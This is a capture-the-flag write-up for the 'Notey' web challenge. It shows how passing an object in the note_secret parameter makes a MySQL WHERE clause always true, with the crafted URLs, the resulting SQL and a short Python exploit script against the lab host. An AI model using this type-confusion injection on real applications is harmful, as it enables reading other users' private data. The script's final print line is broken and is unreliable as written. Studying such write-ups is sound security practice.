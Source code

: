 
## Notey Writeup

- **Category:** Web
- **Points:** 180
- **Difficulty:** Medium

## Challenge Description

I created a note sharing website for everyone to talk to themselves secretly. Don't try to access others notes, grass isn't greener :'( )

## Challenge Code

Here

## Exploitation

The application allows users to create and share notes by adding a secret password for the note so the user can share it using the note's ID and password. Upon analyzing the application, I found that the `viewNote` function does not validate the parameter types, allowing arrays to be sent instead of text. This can be exploited to retrieve the flag from the admin's note (ID 66).

The database is MySQL, so we can send the following request:
`viewNote?note_id=66&note_secret[username]=admin`

This results in the following query:
```sql
SELECT note_id, username, note FROM notes WHERE note_id = '66' AND secret = `username` = 'admin'
```

This is effectively equivalent to:
```sql
SELECT note_id,username,note FROM notes WHERE note_id = '66' and 1
```

The condition `secret = ``username`` = 'admin'` evaluates to `1` since there is a note in the table with `username='admin'`.


If there is no username field, the attack can still be executed by creating a new note with any content, such as 'test', and then retrieving the admin's note using:
`/viewNote?note_id=66&note_secret[note]=test`

Due to server restrictions that revoke sessions in less than 3 seconds, the exploit is automated using a script that registers a new user, logs in, and retrieves the flag.

```python
import requests

base_url = "http://a3a3b67b41f6f89581711.playat.flagyard.com"
login_url = f"{base_url}/login"
register_url = f"{base_url}/register"

username = "anyuser"
password = "1234567"

register_data = {
    "username": username,
    "password": password
}

sess = requests.Session()
register_response = sess.post(register_url, data=register_data)
login_response = sess.post(login_url, data=register_data)

target_url = f"{base_url}/viewNote?note_id=66&note_secret[username]=admin"

exp = sess.get(target_url)
flag = exp.json()[0]['note']
print(f"Flag: {}")
```
